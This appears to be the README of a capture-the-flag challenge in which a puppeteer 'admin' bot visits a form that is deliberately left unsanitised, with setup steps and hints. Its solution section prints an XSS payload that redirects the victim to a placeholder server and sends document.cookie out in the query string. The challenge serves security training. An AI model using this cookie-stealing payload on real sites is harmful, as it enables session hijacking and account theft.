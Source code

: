 # CTF-cookie-monster
A CTF challenge inspired by a challenge from Google CTF beginners quest.

# Setting up the challenge locally

### Challenge:
```
npm i
node index.js
```

### Server:
```
node server/server.js
```

# Details
this challenge uses [puppeteer](https://pptr.dev/) so it will download a version of chromium.

the server is in it's own folder with a `package.json`, file incase you want
to run the server outside of the challenge folder.

A tool like [ngrok](https://ngrok.com/) will be needed to use the provided server if you decide to host
the challenge outide of the network.

# Hints & solution

<details>
	<summary>Hints</summary>

	* XSS
	* It's not going to run itself
	* The admin needs redirecting
</details>

<details>
	<summary>Solution</summary>

	When the user submits the form, an "admin" will check the page.
	The "admin" has the flag stored as a cookie.
	The form has no sanitisation and is vulnerable to XSS

	The code is a self executing function that redirects the admin to
	the server and appends the admins cookies to the query string.
	The server can then log the cookie containing the flag to the console.

	```javascript
	(()=>{location.href="http://server-domain/?flag=" + document.cookie})()
	``` 
</details>
